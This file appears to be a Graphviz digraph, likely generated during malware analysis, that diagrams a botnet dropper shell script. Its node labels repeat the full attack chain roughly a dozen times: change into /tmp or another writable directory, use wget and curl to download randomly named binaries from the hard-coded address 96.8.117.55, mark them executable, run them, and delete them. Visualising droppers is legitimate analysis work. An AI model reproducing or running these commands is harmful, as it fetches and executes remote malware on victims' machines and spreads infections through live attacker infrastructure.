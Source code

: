 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://96.8.117.55/325rtregsg r "];
10 -> 12 [label=";,"];
12 [label="curl -O http://96.8.117.55/325rtregsg r "];
12 -> 14 [label=";,"];
14 [label="chmod +x 325rtregsg r "];
14 -> 16 [label=";,"];
16 [label="./325rtregsg r "];
16 -> 18 [label=";,"];
18 [label="rm -rf 325rtregsg r "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://96.8.117.55/rhdshfshdf "];
30 -> 32 [label=";,"];
32 [label="curl -O http://96.8.117.55/rhdshfshdf "];
32 -> 34 [label=";,"];
34 [label="chmod +x rhdshfshdf "];
34 -> 36 [label=";,"];
36 [label="./rhdshfshdf "];
36 -> 38 [label=";,"];
38 [label="rm -rf rhdshfshdf "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://96.8.117.55/dfshdshdfhsjn "];
50 -> 52 [label=";,"];
52 [label="curl -O http://96.8.117.55/dfshdshdfhsjn "];
52 -> 54 [label=";,"];
54 [label="chmod +x dfshdshdfhsjn "];
54 -> 56 [label=";,"];
56 [label="./dfshdshdfhsjn "];
56 -> 58 [label=";,"];
58 [label="rm -rf dfshdshdfhsjn "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://96.8.117.55/dfshbadfshfjyrdfshsh "];
70 -> 72 [label=";,"];
72 [label="curl -O http://96.8.117.55/dfshbadfshfjyrdfshsh "];
72 -> 74 [label=";,"];
74 [label="chmod +x dfshbadfshfjyrdfshsh "];
74 -> 76 [label=";,"];
76 [label="./dfshbadfshfjyrdfshsh "];
76 -> 78 [label=";,"];
78 [label="rm -rf dfshbadfshfjyrdfshsh "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://96.8.117.55/sdfhjjyjsd "];
90 -> 92 [label=";,"];
92 [label="curl -O http://96.8.117.55/sdfhjjyjsd "];
92 -> 94 [label=";,"];
94 [label="chmod +x sdfhjjyjsd "];
94 -> 96 [label=";,"];
96 [label="./sdfhjjyjsd "];
96 -> 98 [label=";,"];
98 [label="rm -rf sdfhjjyjsd "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://96.8.117.55/fdsjhsdfgsg "];
110 -> 112 [label=";,"];
112 [label="curl -O http://96.8.117.55/fdsjhsdfgsg "];
112 -> 114 [label=";,"];
114 [label="chmod +x fdsjhsdfgsg "];
114 -> 116 [label=";,"];
116 [label="./fdsjhsdfgsg "];
116 -> 118 [label=";,"];
118 [label="rm -rf fdsjhsdfgsg "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://96.8.117.55/sdjhjfdgjns "];
130 -> 132 [label=";,"];
132 [label="curl -O http://96.8.117.55/sdjhjfdgjns "];
132 -> 134 [label=";,"];
134 [label="chmod +x sdjhjfdgjns "];
134 -> 136 [label=";,"];
136 [label="./sdjhjfdgjns "];
136 -> 138 [label=";,"];
138 [label="rm -rf sdjhjfdgjns "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://96.8.117.55/sfdjgsgfj "];
150 -> 152 [label=";,"];
152 [label="curl -O http://96.8.117.55/sfdjgsgfj "];
152 -> 154 [label=";,"];
154 [label="chmod +x sfdjgsgfj "];
154 -> 156 [label=";,"];
156 [label="./sfdjgsgfj "];
156 -> 158 [label=";,"];
158 [label="rm -rf sfdjgsgfj "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://96.8.117.55/sdjsgjsgf "];
170 -> 172 [label=";,"];
172 [label="curl -O http://96.8.117.55/sdjsgjsgf "];
172 -> 174 [label=";,"];
174 [label="chmod +x sdjsgjsgf "];
174 -> 176 [label=";,"];
176 [label="./sdjsgjsgf "];
176 -> 178 [label=";,"];
178 [label="rm -rf sdjsgjsgf "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://96.8.117.55/sdjhgfsjsfdgj "];
190 -> 192 [label=";,"];
192 [label="curl -O http://96.8.117.55/sdjhgfsjsfdgj "];
192 -> 194 [label=";,"];
194 [label="chmod +x sdjhgfsjsfdgj "];
194 -> 196 [label=";,"];
196 [label="./sdjhgfsjsfdgj "];
196 -> 198 [label=";,"];
198 [label="rm -rf sdjhgfsjsfdgj "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://96.8.117.55/sdfgjgjfdgj "];
210 -> 212 [label=";,"];
212 [label="curl -O http://96.8.117.55/sdfgjgjfdgj "];
212 -> 214 [label=";,"];
214 [label="chmod +x sdfgjgjfdgj "];
214 -> 216 [label=";,"];
216 [label="./sdfgjgjfdgj "];
216 -> 218 [label=";,"];
218 [label="rm -rf sdfgjgjfdgj "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://96.8.117.55/sjsgfjgfnfg "];
230 -> 232 [label=";,"];
232 [label="curl -O http://96.8.117.55/sjsgfjgfnfg "];
232 -> 234 [label=";,"];
234 [label="chmod +x sjsgfjgfnfg "];
234 -> 236 [label=";,"];
236 [label="./sjsgfjgfnfg "];
236 -> 238 [label=";,"];
238 [label="rm -rf sjsgfjgfnfg "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://96.8.117.55/sgfjsgjsfgjs "];
250 -> 252 [label=";,"];
252 [label="curl -O http://96.8.117.55/sgfjsgjsfgjs "];
252 -> 254 [label=";,"];
254 [label="chmod +x sgfjsgjsfgjs "];
254 -> 256 [label=";,"];
256 [label="./sgfjsgjsfgjs "];
256 -> 257 [label=";,"];
}
